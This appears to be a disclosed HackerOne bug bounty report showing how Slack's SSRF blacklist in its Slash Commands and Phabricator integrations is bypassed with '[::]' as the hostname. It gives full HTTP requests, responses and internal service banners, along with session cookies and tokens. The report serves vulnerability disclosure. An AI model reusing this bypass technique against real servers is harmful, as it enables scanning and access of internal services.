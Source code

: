 # Bypass of the SSRF protection (Slack commands, Phabricator integration)

## Report Details
- **Report ID**: 61312
- **URL**: https://hackerone.com/reports/61312
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2015-05-11T21:42:32.614Z
- **Disclosed**: 2016-09-14T20:38:17.068Z

## Reporter
- **Username**: agarri_fr
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: slack

## Vulnerability Information
# Abstract

Some Slack features like "Integrations / Phabricator" and "Integration / Slash Commands" allow users to submit URL that will be accessed by the backend servers. A blacklist tries to forbid access to internal resources (loopback, 10.0.0.0/8, 192.168.0.0/24, ...). This blacklist can be bypassed using "[::]" as the hostname. Only services binding all the interfaces and supporting IPv6 can be reached using that vector.

# Integration features

## Slack commands

Modify the "url" property of the "/ssrf" Slack command (with "http://[::]:25/" as the destination)

    POST /services/4814366410 HTTP/1.1
    Host: agarri.slack.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:35.0) Gecko/20100101 Firefox/35.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: fr,fr-fr;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: https://agarri.slack.com/services/4814366410?updated=1
    Cookie: a-4829527691=lXNoz55pPZJJprlgeR9HwDESdmtwYmeB1FBbV17QKuaT7NQ%2BzYK9ugAawkjnMOTb3INz7JKDJiWMXMt3M6O3dQ%3D%3D; a=4829527691
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 148
    
    crumb=s-1431286469-c73f073ed6-%E2%98%83&edit_service=1&is_edit=1&command=/ssrf&url=http://[::]:25/&method=GET&in_autocomplete=on&desc=&usage=&label=

Execute the Slack command "/ssrf"

    POST /api/chat.command?t=1431286754 HTTP/1.1
    Host: agarri.slack.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:35.0) Gecko/20100101 Firefox/35.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: fr,fr-fr;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Content-Type: application/x-www-form-urlencoded
    Referer: https://agarri.slack.com/messages/general/
    Content-Length: 133
    Cookie: a-4829527691=lXNoz55pPZJJprlgeR9HwDESdmtwYmeB1FBbV17QKuaT7NQ%2BzYK9ugAawkjnMOTb3INz7JKDJiWMXMt3M6O3dQ%3D%3D; a=4829527691
    Connection: keep-alive
    Pragma: no-cache
    Cache-Control: no-cache
    
    agent=webapp&command=/ssrf&text=&channel=C04QDFHLT&token=xoxs-4829527689-4829527691-4814341714-d0346ec616&set_active=true&_attempts=1

Access port TCP/25 on loopback

    HTTP/1.1 200 OK
    Access-Control-Allow-Origin: *
    Cache-Control: private, no-cache, no-store, must-revalidate
    Content-Type: application/json; charset=utf-8
    Date: Mon, 11 May 2015 20:28:06 GMT
    Expires: Mon, 26 Jul 1997 05:00:00 GMT
    Pragma: no-cache
    Server: Apache
    Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
    Vary: Accept-Encoding
    X-Accepted-OAuth-Scopes: post
    X-Content-Type-Options: nosniff
    X-OAuth-Scopes: identify,read,post,client,admin
    X-XSS-Protection: 0
    Content-Length: 120
    Connection: keep-alive
    
    {"ok":true,"response":"220 squid3.tinyspeck.com ESMTP Postfix\r\n221 2.7.0 Error: I can break rules, too. Goodbye.\r\n"}

## Phabricator

This vector is very similar to the previous one. If the port is opened, a HTTP 302 code is received. If not, an error 500 is generated. Outside of that, this vector is blind.

Request for http://[::]:22/

    POST /services/4836378801 HTTP/1.1
    Host: agarri.slack.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:35.0) Gecko/20100101 Firefox/35.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: fr,fr-fr;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: https://agarri.slack.com/services/4836378801?updated=1
    Cookie: a-4829527691=lXNoz55pPZJJprlgeR9HwDESdmtwYmeB1FBbV17QKuaT7NQ%2BzYK9ugAawkjnMOTb3INz7JKDJiWMXMt3M6O3dQ%3D%3D; a=4829527691
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 132
    
    edit_service=1&edit_label=1&phabricator_url=http://[::]:22/&conduit_user=Yolo&conduit_cert=foobar&import_phriction=1&import_pastes=1

302 Found

    HTTP/1.1 302 Found
    Content-Type: text/html
    Date: Mon, 11 May 2015 20:16:02 GMT
    Location: /services/4836378801?updated=1
    Server: Apache
    Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
    Vary: Accept-Encoding
    X-Frame-Options: SAMEORIGIN
    Content-Length: 0
    Connection: keep-alive

Request for http://[::]:11/

    POST /services/4836378801 HTTP/1.1
    Host: agarri.slack.com
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux i686; rv:35.0) Gecko/20100101 Firefox/35.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: fr,fr-fr;q=0.8,en-us;q=0.5,en;q=0.3
    Accept-Encoding: gzip, deflate
    Referer: https://agarri.slack.com/services/4836378801?updated=1
    Cookie: a-4829527691=lXNoz55pPZJJprlgeR9HwDESdmtwYmeB1FBbV17QKuaT7NQ%2BzYK9ugAawkjnMOTb3INz7JKDJiWMXMt3M6O3dQ%3D%3D; a=4829527691
    Connection: keep-alive
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 132
    
    edit_service=1&edit_label=1&phabricator_url=http://[::]:21/&conduit_user=Yolo&conduit_cert=foobar&import_phriction=1&import_pastes=1

500 Error

    HTTP/1.1 500 Server Error
    Cache-Control: private, no-cache, no-store, must-revalidate
    Content-Type: text/html; charset=utf-8
    Date: Mon, 11 May 2015 20:22:11 GMT
    Expires: Mon, 26 Jul 1997 05:00:00 GMT
    Pragma: no-cache
    Server: Apache
    Strict-Transport-Security: max-age=31536000; includeSubDomains; preload
    Vary: Accept-Encoding
    X-Frame-Options: SAMEORIGIN
    X-XSS-Protection: 0
    Content-Length: 32657
    Connection: keep-alive
    
    <snip>

# Identified services

SSH on TCP/22

    SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.4
    Protocol mismatch.

SMTP on TCP/25

    220 squid3.tinyspeck.com ESMTP Postfix
    221 2.7.0 Error: I can break rules, too. Goodbye.

Squid on TCP/3128


    [...]
    <h1>ERROR</h1>
    <h2>The requested URL could not be retrieved</h2>
    [...]
    <p>The following error was encountered while trying to retrieve the URL: <a href="/?token=wW0Mjd9kSTPzazuTzHPkLNpI&team_id=T04QDFHL9&team_domain=agarri&channel_id=C04QDFHLT&channel_name=general&user_id=U04QDFHLB&user_name=nico&command=/ssrf&text=">/?token=wW0Mjd9kSTPzazuTzHPkLNpI&team_id=T04QDFHL9&team_domain=agarri&channel_id=C04QDFHLT&channel_name=general&user_id=U04QDFHLB&user_name=nico&command=/ssrf&text=</a></p>
    <blockquote id="error">
    <p><b>Invalid URL</b></p>
    </blockquote>
    [...]
    Generated Mon, 11 May 2015 20:34:46 GMT by localhost (squid\/3.1.19)
    [...]





## Attachments
No attachments
